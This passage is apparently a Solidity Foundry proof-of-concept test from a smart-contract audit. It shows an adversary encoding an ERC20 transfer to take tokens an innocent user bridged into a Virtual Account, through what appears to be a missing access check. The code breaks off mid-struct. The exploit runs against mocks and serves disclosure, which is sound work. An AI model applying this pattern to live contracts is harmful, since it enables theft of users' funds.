 ```solidity
function testMissingAccessVA() public {
        testAddLocalTokenArbitrum();

        // Some innocent user 
        address user = address(0x7777);

        // Get some Avax underlying tokens
        avaxMockAssetToken.mint(user, 100 ether);

        hevm.deal(user, 1 ether);

        DepositInput memory depositInput = DepositInput({
            hToken: avaxMockAssethToken,
            token: address(avaxMockAssetToken),
            amount: 100 ether,
            deposit: 100 ether
        });

        GasParams memory gasParams = GasParams({
            gasLimit: 0.5 ether,
            remoteBranchExecutionGas: 0.5 ether
        });

        bytes memory packedData = abi.encodePacked("");

        // Start prank from innocent user
        hevm.startPrank(user);

        // Bridge assets that will be credited to user's Virtual Account
        avaxMockAssetToken.approve(address(avaxPort), 100 ether);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 1 ether}(
            payable(user), packedData, depositInput, gasParams, true
        );

        // Get the innocent user's VA
        VirtualAccount vcAccount = rootPort.fetchVirtualAccount(user);

        // Print the user's balance of the Global Token
        console2.log("Innocent user balance before", ERC20hTokenRoot(newAvaxAssetGlobalAddress).balanceOf(address(address(vcAccount))));

        hevm.stopPrank();

        // Adversary user
        address adversary = address(0x1111);

        // Start Prank from adversary

        hevm.startPrank(adversary);

        // Balance of adversary before
        console2.log("Adversary balance before", ERC20hTokenRoot(newAvaxAssetGlobalAddress).balanceOf(address(address(adversary))));

        // Encode a call to ERC20 "transfer"
        bytes4 selector = bytes4(keccak256(bytes("transfer(address,uint256)")));
        bytes memory data = abi.encodeWithSelector(selector,adversary,100 ether);

        PayableCall[] memory singleCall = new PayableCall[](1);
        
        singleCall[0] = PayableCall({
            target: newAvaxAssetGlobalAddress,
            callData: data,
```